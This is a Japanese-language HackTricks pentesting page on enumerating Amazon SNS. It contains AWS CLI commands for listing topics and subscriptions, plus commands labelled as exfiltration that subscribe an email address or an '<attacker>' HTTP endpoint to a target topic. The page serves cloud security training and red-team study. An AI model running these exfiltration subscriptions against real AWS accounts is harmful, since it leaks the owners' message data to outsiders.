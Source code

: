 # AWS - SNS Enum

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS)は、**完全に管理されたメッセージングサービス**として説明されています。これは、**アプリケーション間**（A2A）および**アプリケーションから人**（A2P）への通信タイプの両方をサポートしています。

A2A通信の主な機能には、**公開/購読（pub/sub）メカニズム**が含まれます。これらのメカニズムは、**トピック**を導入し、高スループットの**プッシュベースの多対多メッセージング**を可能にします。この機能は、分散システム、マイクロサービス、およびイベント駆動のサーバーレスアーキテクチャを含むシナリオで非常に有利です。これらのトピックを活用することで、発行システムは**広範囲の購読システム**にメッセージを効率的に配信し、ファンアウトメッセージングパターンを促進できます。

### **SQSとの違い**

**SQS**は、ポイントツーポイント通信を可能にする**キューベースの**サービスであり、メッセージが**単一の消費者**によって処理されることを保証します。これは、**少なくとも1回の配信**を提供し、標準およびFIFOキューをサポートし、再試行や遅延処理のためのメッセージ保持を許可します。\
一方、**SNS**は、**公開/購読ベースのサービス**であり、メッセージを**複数の購読者**に同時にブロードキャストすることによって**1対多**通信を可能にします。これは、**電子メール、SMS、Lambda関数、HTTP/HTTPS**などのさまざまなサブスクリプションエンドポイントをサポートし、ターゲットメッセージ配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システム内のコンポーネント間のデカップリングを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動のファンアウト通信パターンを強調しています。

### **列挙**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**トピックがFIFOタイプの場合**、**SQS**プロトコルを使用するサブスクライバーのみが使用できます（HTTPまたはHTTPSは使用できません）。

また、`--topic-arn`にリージョンが含まれていても、**`--region`**で正しいリージョンを指定することを確認してください。そうしないと、アクセス権がないことを示すエラーが表示されますが、問題はリージョンです。
{% endhint %}

#### 認証されていないアクセス

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 権限昇格

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### エクスプロイト後

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 永続性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 参考文献

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

